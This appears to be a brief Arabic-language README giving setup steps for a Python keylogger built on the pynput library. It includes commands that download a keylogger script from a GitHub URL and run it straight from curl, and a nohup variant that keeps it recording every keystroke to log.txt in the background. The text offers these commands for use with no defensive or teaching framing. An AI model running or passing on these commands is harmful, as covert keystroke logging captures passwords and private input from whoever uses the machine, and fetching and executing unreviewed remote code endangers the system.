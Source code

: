 إذا لم يكن Python مثبتًا، يمكنك تثبيته باستخدام:

sudo apt update

sudo apt install python3


بعد ذلك، تحتاج إلى تثبيت مكتبة pynput التي سنستخدمها لتسجيل ضغطات المفاتيح:
pip3 install pynput

لتشغيل الـkeylogger، استخدم الأمر التالي:

python3 <(curl -s https://raw.githubusercontent.com/osama-mousa/python-scripts/main/keylogger.py)


لتشغيله في الخلفية دون إغلاق الجلسة، يمكنك استخدام أدوات مثل nohup:

nohup python3 <(curl -s https://raw.githubusercontent.com/osama-mousa/python-scripts/main/keylogger.py) &


سيبدأ البرنامج الآن في تسجيل كل ضغطة على لوحة المفاتيح في ملف log.txt :ninja: 
